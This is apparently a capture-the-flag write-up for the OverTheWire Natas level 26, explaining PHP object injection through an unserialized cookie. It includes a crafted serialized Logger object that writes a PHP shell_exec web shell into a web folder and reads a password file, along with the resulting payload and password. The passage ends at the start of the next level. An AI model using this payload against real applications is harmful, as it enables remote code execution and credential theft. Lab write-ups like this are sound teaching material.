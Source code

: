 The form allows us to draw a line from a point at (x1, y1) to a point at (x2, y2).

In the code we can see that the function `drawFromUserdata()` unserializes the drawing data from the cookie. The draws that we make through the form are serialized and stored in the cookie. If the cookie contains a serialized object, and this object then get unserialized, the object will be instantiated, and a `__wakeup()` function (if it exists) will be called, followed by a `__destruct()` function call if the object is no longer in use.  
When an attacker controls a serialized object that is passed into unserialize(), he can control the properties of the created object. This will then allow him to hijack the flow of the application, by controlling the values passed into automatically executed methods like `__wakeup()` or `__destruct()`.  
In our code the Logger class implements the `__destruct()` function, so maybe we can use that to get the password for the next level. The `__destruct()` function writes the exit message to the log file. What if the log file is a php file that we can access (and run), and the exit message is a php command that prints the content of `/etc/natas_webpass/natas27`? From the website's normal behaviour we know that we can access files in `http://natas26.natas.labs.overthewire.org/img/`.  
Let's serialize an object of the Logger class and set `logFile` to `/var/www/natas/natas26/img/pippoBaudo.php` and `exitMsg` to `<?php echo shell_exec('cat /etc/natas_webpass/natas27'); ?>`.

```php
class Logger{
    private $logFile = "/var/www/natas/natas26/img/pippoBaudo.php";
    private $exitMsg = "<?php echo shell_exec('cat /etc/natas_webpass/natas27'); ?>";
}

$logger = new Logger();
echo base64_encode(serialize($logger));
```

We get this string:  `Tzo2OiJMb2dnZXIiOjI6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo0MToiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvcGlwcG9CYXVkby5waHAiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1OToiPD9waHAgZWNobyBzaGVsbF9leGVjKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30=`

Now we put that string in our `drawing` cookie and request the main page. This will execute the Logger class's __destruct() method, which will write the exit message to the log file. Now we just have to request `http://natas26.natas.labs.overthewire.org/img/pippoBaudo.php` to execute the php code and get the password:

![password](pics/natas/2025-08-14-16-31-53.png)

Password: u3RRffXjysjgwFU6b9xa23i6prmUsYne

# natas28

> The page shows this form:  
> ![form](pics/natas/2025-08-15-11-56-44.png)  
> The source code is:  
> ```php
> <?php
> 
> // morla / 10111
> // database gets cleared every 5 min